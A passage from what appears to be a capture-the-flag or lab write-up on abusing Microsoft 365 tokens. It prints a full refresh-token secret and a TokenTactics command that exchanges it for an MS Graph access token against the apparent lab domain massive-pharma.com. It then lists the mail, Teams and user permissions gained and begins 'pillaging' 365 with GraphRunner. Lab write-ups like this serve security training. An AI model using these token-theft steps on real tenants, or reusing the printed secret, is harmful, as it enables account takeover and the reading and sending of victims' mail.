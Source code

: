 We get the `RefreshToken` below:

```json
{"Credential_type": "RefreshToken", 
"secret": "1.Aa4Ai9oiJQHYxECIvxlE6unSN5V3sATbjRpGu-4C-eG_e0Y8AXOuAA.AgABAwEAAABVrSpeuWamRam2jAF1XRQEAwDs_wUA9P-VkaMl1oQ82Ejxc9psLIv2aEJ-8JwbJY7RrSRHo6y2159yahAaTO5bNYhhoqFY67PBURnzJTdXEesDmn6wCzBS5z3pukoRkUxk1rbCdwOSQBiGP3o0zvdhfq_o7wlD0J7D4g6iWWJ5BZ-GGNsYPJWAKJQAZB3dZN4Pj1IWhWsPWNTc-hte-qCZmv4-oKb5HhkqudAzLrbrAMn7RJjdTzjwTPfMwjsZBKRwOS7hcVqWVTT6ZvBSTZo7p-3w-MlzOlSF-DGAx_TjT42ox3q5-Yf0-42uPh0NdC9HRKUfDCq_xOErMCKJkfP65FM5RXStUqiHmcGhtY22dTLkiZi77T6Fzx1BpM5N3nzi22L567pDBWDUvcrpUrFvFMG7kLUH-g8MSO3Mtya2q5f_HLgot1_hzXIrgGl4bx5ejX5DCPg"}
```

Now that we have a valid `RefreshToken` let's run `Invoke-RefreshToMSGraphToken -domain massive-pharma.com -RefreshToken “RefreshToken”` again to get a MS Graph Access token. 

![MSGraphToken](/assets/img/TokenTacticsflag3gettoken.png)

We can see we have permissions that can help us enumerate a few thing such as Entra Users, Teams and Mails. 

User Permissions:

- `https://graph.microsoft.com/User.Read.All`
- `https://graph.microsoft.com/User.ReadBasic.All`
- `https://graph.microsoft.com/User.ReadWrite`
- `https://graph.microsoft.com/Users.Read`

Teams Permissions:

- `https://graph.microsoft.com/TeamMember.ReadWrite.All`
- `https://graph.microsoft.com/TeamsTab.ReadWriteForChat`

Mail Permissions:

- `https://graph.microsoft.com/Mail.ReadWrite`
- `https://graph.microsoft.com/Mail.Send`

## Pillaging 365 Using GraphRunner

Let's grab the Access token with the input `$MSGraphToken.access_token`

![TokenGrab](/assets/img/TTflag3TokenGrab.png)
